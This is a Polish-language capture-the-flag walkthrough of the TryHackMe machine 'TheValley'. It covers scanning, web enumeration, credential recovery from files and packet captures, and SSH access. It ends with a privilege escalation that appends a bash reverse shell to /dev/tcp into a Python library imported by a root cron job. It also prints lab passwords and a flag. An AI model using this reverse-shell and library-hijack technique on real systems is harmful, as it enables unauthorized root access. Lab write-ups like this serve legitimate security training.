

# TheValley
IP=10.10.177.139

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -p- 10.10.177.139 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-28 02:41 EDT
Nmap scan report for 10.10.177.139
Host is up (0.050s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
37370/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 37.47 seconds

```

Przeprowadźmy bardziej szczegółowy skan:

```
sudo nmap -sV -sC -p 22,80,37370 10.10.177.139  
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-28 02:42 EDT
Nmap scan report for 10.10.177.139
Host is up (0.049s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.93 seconds
```

Porty 80 i 37370 są najciekawsze ze względu na potencjalne zagrożenia bezpieczeństwa. Port usługi ftp jest dużo wyższy niż zazwyczaj.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:


Jest to galeria ze zdjęciami.  W źródle strony nie ma nic ciekawego, ale istnieje możliwość numeracji po numerach zdjęć:


Przeprowadźmy enumerację przy pomocy narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.177.139/static/FUZZ -c 
```



Ffuf znalazł nowy plik "00". Przejdźmy do tej lokalizacji:


Widzimy notatki, które dostarczają informacji o ukrytej podstronie:

```
/dev1243224123123
```


Jest to panel logowania do serwisu Valley Photo Co. W źródle strony możemy znaleźć plik dev.js:


Po kliknięciu w odnośnik widzimy dane do logowania w postaci jawnej oraz ukrytą notatkę:


```
siemDev:california
```
```
/dev1243224123123/devNotes37370.txt
```

Logując się do panelu lub bezpośrednio przechodząc do notatki widzimy, że dane do logowania prawdopodobnie pasują też do serwisu ftp na porcie 37370:


### Port 37370

Logujemy się do serwisu ftp na porcie 37370:

```
ftp -p 10.10.177.139 37370
```
```
Username: siemDev
```
```
Password: california
```


Znajdujemy 3 pliki z rozszerzeniem .pcapng i pobieramy je:


```
mget *
```


Otwieramy plik w programie do analizy ruchu siecowego np. Wireshark siemHTTP2.pcapng, a następnie przechodząc kolejno przez opcje: File -> Export Objects -> HTTP znajdujemy stronę index.html:


Pobieramy go i otwieramy:


Znalezione dane można wykrozystać do logowania w serwisie ssh:

```
valleyDev:ph0t0s1234
```

## Eksploitacja

### Port 22

Logujemy się przez ssh używając znalezionych danych do logowania komedną:

```
ssh valleyDev@10.10.177.139
```


W pliku user.txt znajdujemy pierwszą flagę:

```
THM{k@l1_1n_th3_v@lley}
```


## Zwiększenie poziomu uprawnień

### valleyDev -> valley

Za pomocą poniższej komendy sprawdzamy uprawnienia użytkownika valleyDev:

```
sudo -l
```


W pliku crontab znajdujemy proces wykonywany przez użytkownika root, który odpala pewien skrypt:


Skrypt importuje bibliotekę base64, co daje potencjalny wektor ataku, jeżeli jesteśmy w stanie edytować ten plik: 


Dostęp do pliku ma użytkownik valley, więc najpierw musimy zdobyć uprawnienia tego użytkownika:


W katalogu /home znajdujemy plik valleyAuthenticator


Pobieramy plik z serwera komendą:

```
scp username@hostname:/path/to/remote/file /path/to/local/file
```
```
scp valleyDev@10.10.177.139:/home/valleyAuthenticator /home/kali
```

Wyciągamy z pliku słowa komendą 'strings' i zapisujemy je w pliku:


Znajdujemy ciąg znaków przypominający hash:


```
e6722920bab2326f8217e4bf6b1b58ac
```

Łamiemy hash za pomocą CrackStation:


```
liberty123
```

Zmieniamy użytkownika na valley przy pomocy zdobytego hasła:

```
valley:liberty123
```


Edytujemy plik /lib/python3.8/base64.py dodając komendy:

```
import os
os.system('bash -c "bash -i >& /dev/tcp/[IP]/[PORT] 0>&1"')
```

Czekamy na połączenie:

```
nc -lvnp [PORT]
```

Po chwili uzyskujemy dostęp jako użytkownik root:


W pliku root.txt znajdujemy drugą flagę:


Do zobaczenia na kolejnych CTF-ach!
